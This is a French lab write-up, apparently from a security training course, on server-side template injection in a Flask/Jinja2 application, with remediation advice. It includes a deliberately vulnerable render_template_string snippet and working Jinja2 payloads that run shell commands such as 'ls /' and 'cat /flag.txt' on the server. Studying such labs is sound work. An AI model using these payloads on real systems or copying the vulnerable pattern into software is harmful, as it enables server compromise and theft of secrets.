


# Fiche — Server-Side Template Injection (SSTI)

## Contexte du lab

| Élément | Détail |
|---|---|
| Plateforme | Application Jedha dédiée — exercice SSTI |
| Environnement | Lab interne — réseau autorisé |
| Serveur cible | Flask (Werkzeug/3.1.5, Python/3.14.3) |
| Moteur de template | Jinja2 |
| Outil d'analyse | Burp Suite |
| Environnement autorisé | Oui |

---

## Ce qu'est la SSTI

Un moteur de template comme Jinja2 interprète des expressions entre `{{ }}`.
Par exemple, `{{ 7*7 }}` est évalué et rendu `49` dans la page finale.

Si une application insère directement une entrée utilisateur dans un template avant de le compiler,
l'attaquant peut injecter des expressions évaluées côté serveur.

Contrairement au XSS (exécuté dans le navigateur), la SSTI s'exécute sur le serveur.
Elle peut mener à la lecture de fichiers sensibles, à l'exécution de commandes système,
ou à la compromission complète du serveur.

---

## Mécanisme technique

L'application présentait un formulaire d'abonnement avec un champ `email`.
La valeur saisie était réutilisée dans un template Jinja2 pour construire le message de confirmation.

Vulnérabilité : la valeur n'était pas passée comme variable de contexte séparée,
mais insérée directement dans la chaîne de template, par exemple :

```python
# Code vulnérable (schématique)
template_str = "Thank you " + email + " !"
render_template_string(template_str)
```

Résultat : Jinja2 évalue le contenu de `email` comme une expression de template.

---

## Ce que j'ai fait en lab

### Étape 1 — Détecter la vulnérabilité

Payload envoyé dans le champ `email` via Burp Suite :

```
{{7*7}}
```

Réponse du serveur :

```
Thank you 49 !
```



Le serveur a évalué l'expression mathématique. C'est la confirmation que le moteur de template exécute le contenu de l'entrée. Le fait d'obtenir `49` (et non `7*7`) indique que c'est Jinja2 ou Twig — pas Freemarker qui renverrait `49` sous une autre syntaxe.

### Étape 2 — Accéder au système de fichiers

En Jinja2, l'objet `config` est exposé par défaut dans le contexte Flask.
Il permet de remonter jusqu'au module `os` via l'arborescence des classes Python :

```
{{ config.__class__.__init__.__globals__['os'].popen('ls /').read() }}
```

Résultat : la réponse a affiché la liste des répertoires à la racine du système,
incluant `flag.txt`.



### Étape 3 — Lire un fichier sensible (RCE)

```
{{ config.__class__.__init__.__globals__['os'].popen('cat /flag.txt').read() }}
```

Résultat : le contenu du fichier `flag.txt` a été renvoyé dans la réponse HTTP.

*(Le flag n'est pas reproduit ici — il n'a de sens que dans le contexte de l'exercice.)*

---

## Pourquoi `config.__class__.__init__.__globals__['os']` fonctionne

C'est pas évident au premier coup d'œil. `config` c'est juste un objet Flask exposé dans Jinja2 par défaut — rien de dangereux en soi.

Mais en Python, chaque objet connaît sa propre classe (`.__class__`), chaque classe a un constructeur (`.__init__`), et ce constructeur a accès aux variables globales du module où il a été défini (`.__globals__`). Si `os` est importé quelque part dans ce module — ce qui est presque toujours le cas dans une app Flask — il est là, accessible.

C'est pas un bug Jinja2. C'est l'introspection Python normale, juste pas isolée du contexte template.

---

## Ce que ça donne en pratique

Sur ce lab : lecture de `flag.txt` via `cat`. En conditions réelles les mêmes commandes donnent accès aux `.env`, aux clés privées, aux tokens en clair. Si le processus tourne en root — reverse shell, persistance, compromission complète. La SSTI c'est rarement un finding mineur.

---

## Remédiation

| Mesure | Pourquoi |
|---|---|
| Ne jamais passer une entrée directement dans `render_template_string()` | C'est la cause racine — utiliser `render_template()` avec des variables séparées |
| `render_template("page.html", name=user_input)` | Jinja2 échappe automatiquement les variables passées de cette façon |
| Validation des entrées | Rejeter `{{`, `}}`, `{%` dans les champs qui n'en ont pas besoin |
| `SandboxedEnvironment` Jinja2 | Restreint l'accès aux objets dangereux — pas une solution complète mais ajoute une barrière |
| Moindre privilège | Le processus Flask ne doit pas tourner en root — limite l'impact d'un RCE |
| WAF applicatif | Filtrage des expressions de template au niveau des entrées |

---

## Ce que j'ai appris

- La différence fondamentale SSTI / XSS : même syntaxe d'injection sur le fond, mais l'exécution se passe côté serveur — l'impact potentiel est bien plus grave
- `render_template_string(user_input)` est une erreur de conception courante dans les apps Flask rapides, facile à introduire sans en mesurer les conséquences
- La chaîne `config.__class__.__init__.__globals__['os']` fonctionne parce que Python expose son introspection aux templates Jinja2 — pas un bug du framework, mais un effet de bord d'une mauvaise isolation
- Identifier le moteur de template (Jinja2 vs Twig vs Freemarker) change les payloads à utiliser — `{{7*7}}` = 49 pointe vers Jinja2/Twig
